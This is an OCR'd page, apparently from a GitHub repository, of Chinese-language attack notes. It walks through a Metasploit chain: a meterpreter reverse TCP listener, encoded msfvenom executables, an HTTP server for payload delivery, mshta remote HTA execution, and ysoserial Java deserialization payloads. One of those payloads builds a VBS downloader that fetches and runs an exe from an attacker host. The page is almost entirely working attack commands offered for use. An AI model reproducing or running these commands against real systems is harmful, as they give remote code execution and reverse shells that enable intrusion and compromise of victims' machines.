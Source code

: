 ```
./msfconsole
use exploit/multi/handler
set payload windows/meterpreter_reverse_tcp
set LHOST 0.0.0.0
set LPORT       4445
run -j -z
```

## 2、生成攻击代码

```
cd /Users/`whoami`/safe/top20/metasploit-framework/
./msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.24.10 LPORT=4445 -e x86/shikata_ga_nai -b '\x00' -i 8 -f exe -o /Users/`whoami`/safe/top20/metasploit-framework/tmp/2410_4445.exe

./msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.24.10 LPORT=4445 -f exe -o /Users/`whoami`/safe/top20/metasploit-framework/tmp/2410_4445.exe


use windows/misc/hta_server
run -j -z

那么远程执行代码
mshta http://192.168.24.10:8080/WxtpFMT1WId.hta
参考：
https://github.com/redcanaryco/atomic-red-team
https://github.com/Arno0x/PowerShellScripts
DNS隧道
https://github.com/Arno0x/DNSExfiltrator

```

## 3、监听http服务
等待中招，存在漏洞的机器连接、下载、运行

```
cd /Users/`whoami`/safe/top20/metasploit-framework/tmp
cd tmp
python -m SimpleHTTPServer 9999
```

## 4、发动攻击

```
mkdir /Users/`whoami`/safe/
cd /Users/`whoami`/safe/
git clone https://github.com/hktalent/myhktools.git myhktools
cd myhktools

java -jar jars/ysoserial-0.0.6-SNAPSHOT-all.jar BeanShell1 'cmd.exe /c del poc.vbs& del mess.exe& @echo Set objXMLHTTP=CreateObject("MSXML2.XMLHTTP")>poc.vbs&@echo objXMLHTTP.open "GET","http://192.168.24.10:9999/2410_4445.exe",false>>poc.vbs&@echo objXMLHTTP.send()>>poc.vbs&@echo If objXMLHTTP.Status=200 Then>>poc.vbs&@echo Set objADOStream=CreateObject("ADODB.Stream")>>poc.vbs&@echo objADOStream.Open>>poc.vbs&@echo objADOStream.Type=1 >>poc.vbs&@echo objADOStream.Write objXMLHTTP.ResponseBody>>poc.vbs&@echo objADOStream.Position=0 >>poc.vbs&@echo objADOStream.SaveToFile "mess.exe">>poc.vbs&@echo objADOStream.Close>>poc.vbs&@echo Set objADOStream=Nothing>>poc.vbs&@echo End if>>poc.vbs&@echo Set objXMLHTTP=Nothing>>poc.vbs&@echo Set objShell=CreateObject("WScript.Shell")>>poc.vbs&@echo objShell.Exec("mess.exe")>>poc.vbs&cscript.exe poc.vbs'

生成各种java反序列化漏洞的攻击代码
java -jar /Users/`whoami`/safe/myhktools/jars/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections1 'mshta http://192.168.24.10:8080/WxtpFMT1WId.hta'>CommonsCollections1.bin
```